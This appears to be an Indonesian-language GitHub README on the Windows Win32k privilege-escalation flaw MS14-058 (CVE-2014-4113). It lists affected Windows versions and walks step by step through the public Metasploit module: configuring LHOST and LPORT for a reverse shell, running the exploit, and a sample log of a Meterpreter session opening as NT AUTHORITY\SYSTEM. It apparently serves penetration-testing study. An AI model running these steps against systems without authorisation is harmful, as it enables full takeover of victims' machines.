 # MS14-058

## A. Apa itu MS14-058?

[MS14-058](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058) adalah kerentanan Local Privilege Escalation (LPE) pada sistem operasi Windows yang ditemukan di `Win32k.sys`, sebuah driver kernel-mode dari subsistem grafik Windows.

Kerentanan ini memungkinkan penyerang dengan hak akses terbatas (user biasa) untuk mengeksekusi kode arbitrer dalam mode kernel, dan mendapatkan hak akses tertinggi (`NT AUTHORITY\SYSTEM`).

## B. Detail Teknis:

- CVE ID: `CVE-2014-4113`
- Buletin Microsoft: `MS14-058`
- Tanggal Rilis: `14 Oktober 2014`
- Tipe: Local Privilege Escalation (LPE)
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan:
- Windows Server 2003
- Windows Vista
- Windows Server 2008
- Windows 7
- Windows Server 2008 R2
- Windows 8
- Windows 8.1
- Windows Server 2012
- Windows Server 2012 R2
  
## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS14-058:

   ```
   msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and triggering the exploit...
   [*] Launching msiexec to host the DLL...
   [+] Process 2960 launched.
   [*] Reflectively injecting the DLL into 2960...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 18 opened (192.168.1.42:4444 -> 192.168.1.50:49177) at 2025-05-14 17:01:01 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
